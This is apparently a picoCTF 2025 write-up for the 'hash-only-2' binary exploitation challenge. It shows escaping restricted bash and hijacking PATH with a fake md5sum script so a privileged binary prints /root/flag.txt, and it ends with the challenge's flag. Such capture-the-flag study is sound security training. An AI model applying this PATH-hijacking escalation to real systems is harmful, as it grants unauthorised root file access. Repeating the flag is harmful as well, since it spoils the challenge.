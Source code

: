 # hash-only-2

## Overview:
* Binary exploitation
* Medium
* picoCTF2025

## Description:
Here is a binary that has enough privilege to read the content of the flag file but will only let you know its hash. If only it could just give you the actual content!

Additional details will be available after launching your challenge instance.

## Write-up:
Launch the instance and connect to it.

Try some basic commands:
```bash
ctf-player@pico-chall$ ls
ctf-player@pico-chall$ ls -a
.  ..  .cache  .profile
ctf-player@pico-chall$ cd
-rbash: cd: restricted
ctf-player@pico-chall$ 
```
Seems like we in restricted bash mode. To exit it just type bash.

Now do the same thing we did in hash-only-1:
```bash
ctf-player@challenge:~$ cat > md5sum << 'EOF'
> #!/bin/bash
> echo ""
> cat /root/flag.txt
> EOF
ctf-player@challenge:~$ chmod +x md5sum 
ctf-player@challenge:~$ export PATH=$(pwd):$PATH
ctf-player@challenge:~$ echo $PATH
/home/ctf-player:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
ctf-player@challenge:~$ flaghasher 
Computing the MD5 hash of /root/flag.txt.... 

ctf-player@challenge:~$
```

## Flag:
```
picoCTF{Co-@utH0r_Of_Sy5tem_b!n@riEs_364b3672}
```
